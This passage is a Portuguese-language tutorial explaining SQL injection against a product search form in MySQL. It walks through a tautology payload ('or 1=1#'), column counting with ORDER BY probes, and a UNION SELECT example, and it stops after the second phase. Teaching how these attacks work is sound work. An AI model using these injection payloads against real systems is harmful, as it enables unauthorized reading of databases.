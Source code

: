 ### Exemplo de entrada maliciosa:

Um usuário, em vez de digitar apenas `notebook` na caixa de busca, digitou:

```
notebock' or 1=1# 
```

Essa entrada será enviada ao banco de dados pelo back-end assim:

```sql
SELECT id, nome, descricao 
FROM products 
WHERE nome LIKE "%notebock%" OR 1=1#%" 
   OR descricao LIKE "%notebock%";
```

> A cerquilha `#` **comenta o resto da linha** no MySQL, ou seja, **tudo que vier depois dela será ignorado** pelo banco.

### O que isso causa?

A condição `1=1` é **sempre verdadeira**, então a consulta retorna **todos os produtos**, mesmo que "notebock" não exista.  
Ou seja, o atacante burla o filtro da aplicação e consegue **acesso total aos dados da tabela**.

---

## Fase 1: Descobrir a quantidade de colunas

A primeira etapa de um ataque de SQL Injection é identificar **quantas colunas** estão sendo selecionadas pelo back-end. Isso é necessário para usar a técnica `UNION SELECT`.

### Exemplo:

```sql
SELECT name, description FROM products ORDER BY 1;
SELECT name, description FROM products ORDER BY 2;
```

O atacante vai testando:

```sql
' ORDER BY 1; --
' ORDER BY 2; --
' ORDER BY 3; -- (se der erro, só existem 2 colunas)
```

---

## Fase 2: Usando UNION SELECT

Depois de saber o número de colunas, o atacante pode usar `UNION SELECT` para **inserir dados falsos** ou **extrair informações sensíveis** do banco.

```sql
SELECT name, description 
FROM products 
WHERE name LIKE '%teste%' 
UNION SELECT 1, 2;
```
